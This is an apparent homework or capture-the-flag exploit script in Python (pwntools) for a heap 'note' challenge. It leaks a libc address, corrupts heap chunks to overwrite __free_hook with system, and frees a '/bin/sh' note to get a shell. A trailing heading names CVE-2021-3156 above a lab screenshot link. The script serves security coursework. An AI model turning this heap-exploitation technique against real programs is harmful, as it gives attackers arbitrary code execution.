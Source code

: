 ```python
p.recvuntil(b'Note 8:')
p.recvuntil(b'Data: ')
addr = u64(p.recvuntil(b'\n',drop = True).ljust(8, b'\x00'))
p.recvuntil(b'\n\n')
main_arena_addr = addr - 96
libc_addr = main_arena_addr - libc.sym['main_arena']
log.info("libc_addr=>{:x}".format(libc_addr))

alive = [0, 2, 3, 4, 5, 6, 7, 8, 9]
for i in alive:
    del_note(i)
for i in range(5):
    add_note(0x78, str(i) * 4, str(i) * 4)

add_note(0x78, "0000", cyclic(48))
del_note(7)

gadget = [0xcbcb1, 0xcbcb4, 0xcbcb7]
hook_addr = libc_addr + libc.sym['__free_hook']
log.info("hook_addr=>{:x}".format(hook_addr))
system_addr = libc_addr + libc.sym['system']
log.info("system_addr=>{:x}".format(system_addr))
add_note(0x78, p64(hook_addr - 0x10), cyclic(47))

add_note(0x78, "0000", cyclic(47))
add_note(0x78, 'aaaa', 'aaaa')
for i in alive:
    del_note(i)
for i in range(5):
    add_note(0x78, str(i) * 4, str(i) * 4)

add_note(0x78, b'/bin/sh\x00', str(i) * 4)
add_note(0x78, p64(system_addr), 'aaaa')

del_note(6)

p.interactive()
```

## CVE-2021-3156

实验截图：![](hw1/Photo.png)
